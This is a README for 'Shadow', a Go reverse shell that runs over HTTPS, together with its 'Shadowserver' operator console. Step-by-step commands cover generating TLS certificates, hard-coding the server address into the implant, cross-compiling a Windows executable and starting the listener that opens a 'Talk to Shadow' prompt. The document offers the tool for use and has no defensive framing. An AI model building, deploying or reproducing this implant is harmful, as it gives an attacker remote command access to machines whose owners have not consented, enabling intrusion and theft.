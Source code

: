 # Shadow - A platform independent reverse shell over https.

#####  Shadow is a reverse shell over https and Shadowserver is a manager for Shadow .

## Getting Started

##### git clone https://github.com/diljithishere/shadow.git
##### cd shadow/src
#### Create certs
#### openssl genrsa -out server.key 2048
#### openssl req -new -x509 -days 1826 -key server.key -out server.crt
#### go get github.com/PuerkitoBio/goquery
#### go get github.com/fatih/color
#### Build Shadow 
#### Update your shadowserver ip  {shadowserver := "https://ip:port"}
##### GOOS=windows GOARCH=386 go build -o shadow.exe shadow.go

#### Build Shadow Server
##### go build -o shadowserver shadowserver.go 
#### Run Shadow Server 
##### ./shadowserver

#### Once if the shadow runs Shadowserver's prompt will change to <<Talk to Shadow>>


### Prerequisites

#### Go 1.9

## Built With
#### Go Lang

## Author

* **Diljith S** - *Initial work* - (https://github.com/diljithishere)
